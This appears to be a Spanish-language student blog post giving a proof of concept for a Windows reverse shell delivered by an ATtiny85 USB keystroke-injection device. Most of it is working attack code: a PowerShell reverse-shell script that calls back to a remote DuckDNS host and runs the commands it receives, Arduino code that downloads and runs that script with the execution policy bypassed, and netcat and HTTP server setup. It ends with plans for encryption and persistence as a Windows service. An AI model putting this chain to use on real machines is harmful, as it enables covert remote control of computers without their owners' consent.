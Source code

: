 ```yaml
---
author: Inge Gatovsky
pubDatetime: 2024-10-15T07:15:46.746Z
title: Prueba de Concepto Reverse Shell
slug: prueba-de-concepto-reverse-shell
featured: true
draft: false
tags:
  - sistemas-programables
  - attiny85
  - arduino
  - python
  - windows
  - ubuntu
  - powershell
description: Prueba de Concepto Attiny85.
---
```


## Objetivo

El objetivo de esta prueba de concepto es obtener una shell inversa en un sistema Windows y enviarla a un servidor remoto.

## Desarrollo

### Configuración del servidor 🖥️

Usamos la misma configuración de la <a href="https://blog.hharieta.lat/posts/tarea-998-prueba-de-concepto/#configuración-del-servidor-remoto" target="_blank">Tarea 998, Configuración del servidor remoto</a>, solo que ahora activamos otro puerto en el firewall de Ubuntu:

```bash
sudo ufw allow 8181
```

este puerto servirá para la descarga de nuestro script en el sistema Windows.

### Configuración de Script Rshell

Crea una carpeta llamada `scripts` en el directorio `$HOME` de tu usuario y dentro de esta carpeta crea un archivo llamado `unicorn` con el siguiente contenido:

```powershell
# $HOME/scripts/unicorn
$client = New-Object System.Net.Sockets.TCPClient('dominio.duckdns.org', 8080)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
};
$client.Close();
```

donde `dominio.duckdns.org` es el dominio que se creó en <a href="https://www.duckdns.org/" target="_blank">DuckDNS</a>, y `8080` es el puerto que está escuchando en el servidor remoto

**instala** `screen` en el servidor con el comando:

```bash
sudo apt -y install screen
```

**Crea** una sesión de `screen` con:

```bash
screen -S pythonServer
```

Ahora inicia un servidor HTTP en el puerto 8181 con el siguiente comando:

```bash
python3 -m http.server 8181
```

Presiona `Ctrl + A + D` para salir de la sesión de `screen`, el servidor seguirá corriendo en segundo plano. este pequeño servidor servirá para que nuestro Attiny85 pueda descargar el script `unicorn` y ejecutarlo.

> Puedes volver a la sesión de `screen` con el comando `screen -r pythonServer`

### Configuración de Attiny85 🧮

Usando el siguiente código en el Attiny85, se puede descargar el script `unicorn` y ejecutarlo en el sistema Windows:

```cpp
#include <DigiKeyboard.h>

void openRun() {
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);  // Windows + R
    delay(500);
}

void runCommand(const char *command) {
    DigiKeyboard.println(command);
    delay(500);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    delay(2000); 
}

void typeCommand() {
    DigiKeyboard.println("Invoke-WebRequest -Uri 'http://dominio.duckdns.org:8181/scripts/unicorn' -OutFile 'C:\\Windows\\Temp\\unicorn.ps1';");
    DigiKeyboard.delay(2000);
    DigiKeyboard.println("powershell -ExecutionPolicy Bypass -File C:\\Windows\\Temp\\unicorn.ps1");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void setup() {
    DigiKeyboard.update();

    openRun();
    runCommand("powershell");

    delay(500);

    typeCommand();
    }

void loop() {}

```

_donde `dominio.duckdns.org` es el dominio que se creó en <a href="https://www.duckdns.org/" target="_blank">DuckDNS</a>_

El código ino lo debes cargar al Attiny85 similar a como se muestra <a href="https://blog.hharieta.lat/posts/tarea-998-prueba-de-concepto/#configuración-de-arduino-ide-2x" target="_blank">aquí</a>

### Configuración de NetCat 🐱

Usa el comando `nc` en el servidor para escuchar en un puerto específico, por ejemplo el puerto 8080:

```bash
nc -lvnp 8080
```

donde `-l` es para escuchar, `-v` es para verbose, `-n` es para no resolver nombres de dominio y `-p` es para especificar el puerto.

> Ahora puedes usar el Attiny85 en cualquier computadora con Windows y obtendrás una shell inversa en el servidor remoto.

### Verificación 👀

Para verificar que la shell inversa se ha obtenido correctamente, se puede ejecutar el siguiente comando en el servidor remoto:

```bash
ls
```

y se debe obtener una salida del directorio de Windows:

![Reverse Shell](../../assets/images/sisprog/IMG_8769.jpg)

se creó un archivo `hack.txt` en el sistema Windows con el comando:

```bash
echo "Hackeado por el Gatovsky" > C:\\Users\\Jorda\\Desktop\\hack.txt
```

y se verificó que se creó correctamente con el comando:

```bash
cat C:\\Users\\Jorda\\Desktop\\hack.txt
```

![Hack](../../assets/images/sisprog/IMG_8770.JPG)

## Proximos Pasos

- [ ] Encriptar la comunicación entre el cliente y el servidor
- [ ] Crear un payload en Atttiny85 para ejecutar la shell inversa en un sistema Windows
- [ ] Crear un servicio de Windows para ejecutar la shell inversa en segundo plano

(Pasos opcionales si no me reprueba el profe)

---

Nota: Ninguna PC fue lastimada en la realización de esta prueba de concepto.

---
